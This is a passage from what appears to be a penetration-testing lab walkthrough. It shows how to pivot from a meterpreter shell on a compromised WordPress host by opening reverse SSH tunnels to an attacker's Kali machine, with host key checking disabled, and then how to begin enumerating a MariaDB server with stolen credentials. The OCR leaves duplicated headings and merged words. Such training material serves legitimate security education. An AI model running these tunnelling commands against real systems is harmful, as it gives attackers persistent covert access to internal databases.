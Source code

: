  The final SSH command can be found in Listing 898.
 
 ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul
l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
 
 Finally, we need to run the SSH command in the meterpreter shell.
 
 ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul
l" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
Could not create directory '/var/www/.ssh'.
Warning: Permanently added '10.11.0.4' (ECDSA) to the list of known hosts
 
 Now let’s verify that the ports are open on our Kali machine:
 
 kali@kali:~$ sudo netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN 1/systemd
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 645/sshd
tcp 0 0 127.0.0.1:13306 0.0.0.0:* LISTEN 91364/sshd: kali
tcp 0 0 127.0.0.1:1122 0.0.0.0:* LISTEN 91364/sshd: kali
tcp6 0 0 :::111 :::* LISTEN 1/systemd
tcp6 0 0 :::22 :::* LISTEN 645/sshd
tcp6 0 0 ::1:13306 :::* LISTEN 91364/sshd: kali
tcp6 0 0 ::1:1122 :::* LISTEN 91364/sshd: kali
... 

 
 At this point, since the ssh command was run in the background, even if our meterpreter shell were to die, we would have remote access to the database server through the remote tunnel.
24.3 Targeting the Database

24.3 Targeting the Database


 Web applications frequently have a database configured on another server as is the case insandbox.local. However, at this point we have network access to the database host and, for themost part, we can treat it as if we are on the same network. As is always the case with tunnels, weshould expect some lag.
24.3.1 Enumeration

24.3.1 Enumeration


 At this point in the enumeration step of the database, we already know a couple of things. Becauseof access to the WordPress server, we know that the host is in a different network than we arecurrently on. We also know that we are running MariaDB version 10.3.20. A quick Google searchshows us this is a fairly new version. This presents a problem as a new version most likely won’thave vulnerabilities that lead to remote code execution.
 
 Let’s connect to the database and start enumerating other aspects of MariaDB.
24.3.1.1 Application/Service Enumeration

24.3.1.1 Application/Service Enumeration

 To connect to MariaDB, we can use Kali’s built in MySQL client along with the credentials we have recovered from the WordPress configuration file.
 
 While MariaDB is a different package than MySQL,it was designed to be backwards compatible.
  